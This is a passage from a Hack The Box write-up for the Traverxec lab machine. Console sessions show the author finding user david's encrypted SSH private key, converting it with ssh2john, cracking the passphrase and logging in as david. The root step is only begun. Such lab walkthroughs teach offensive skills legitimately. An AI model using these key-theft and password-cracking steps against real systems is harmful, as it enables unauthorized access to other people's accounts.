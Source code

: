 ```
[10.10.14.43]-bibo318@parrot:~/HTB/traverexc$ cd home/
[10.10.14.43]-bibo318@parrot:~/HTB/traverexc/home$ ls
david
[10.10.14.43]-bibo318@parrot:~/HTB/traverexc/home$ da
bash: da: command not found
[10.10.14.43]-bibo318@parrot:~/HTB/traverexc/home$ cd david/
[10.10.14.43]-bibo318@parrot:~/HTB/traverexc/home/david$ ls
[10.10.14.43]-bibo318@parrot:~/HTB/traverexc/home/david$ ls -la
total 12
drwxr-xr-x 3 kali kali 4096 Nov 13 18:42 .
drwxr-xr-x 3 kali kali 4096 Nov 13 18:42 ..
drwx------ 2 kali kali 4096 Oct 25  2019 .ssh
[10.10.14.43]-bibo318@parrot:~/HTB/traverexc/home/david$ cd .ssh/
[10.10.14.43]-bibo318@parrot:~/HTB/traverexc/home/david/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub
[10.10.14.43]-bibo318@parrot:~/HTB/traverexc/home/david/.ssh$ 
```
we found his private key but it is encrypted! let use ssh2john to convert it into hash and use colabcat to crack it again!!
```console
bibo318@parrot:~/HTB/traverexc/home/david/.ssh$ find / -name ssh2john* 2> /dev/null
/usr/share/john/ssh2john.py
bibo318@parrot:~/HTB/traverexc/home/david/.ssh$ /usr/share/john/ssh2john.py id_rsa > dave.txt
```
I dunno why I call him dave... it david lol. I guess coz I know someone irl name dave. After few 2 sec work on `Colabcat` we got the password `hunter`
```console
[10.10.14.43]-bibo318@parrot:~/HTB/traverexc/home/david/.ssh$ ssh david@10.10.10.165 -i id_rsa 
Enter passphrase for key 'id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
david@traverxec:~$ cat user.txt 
```

# root
```
david@traverxec:~/bin$ sudo -l
[sudo] password for david: 
Sorry, try again.
[sudo] password for david: 
sudo: 1 incorrect password attempt
david@traverxec:~$ ls
bin  public_www  user.txt
david@traverxec:~$ cd bin/
david@traverxec:~/bin$ ls -la
total 16
drwx------ 2 david david 4096 Oct 25  2019 .
drwx--x--x 5 david david 4096 Oct 25  2019 ..
-r-------- 1 david david  802 Oct 25  2019 server-stats.head
-rwx------ 1 david david  363 Oct 25  2019 server-stats.sh
david@traverxec:~/bin$ cat server-stats.head 
                                                                          .----.
                                                              .---------. | == |
   Webserver Statistics and Data                              |.-"""""-.| |----|
         Collection Script                                    ||       || | == |
          (c) David, 2019                                     ||       || |----|
                                                              |'-.....-'| |::::|
                                                              '"")---(""' |___.|
                                                             /:::::::::::\"    "
                                                            /:::=======:::\
                                                        jgs '"""""""""""""' 

david@traverxec:~/bin$ cat server-stats.
cat: server-stats.: No such file or directory
```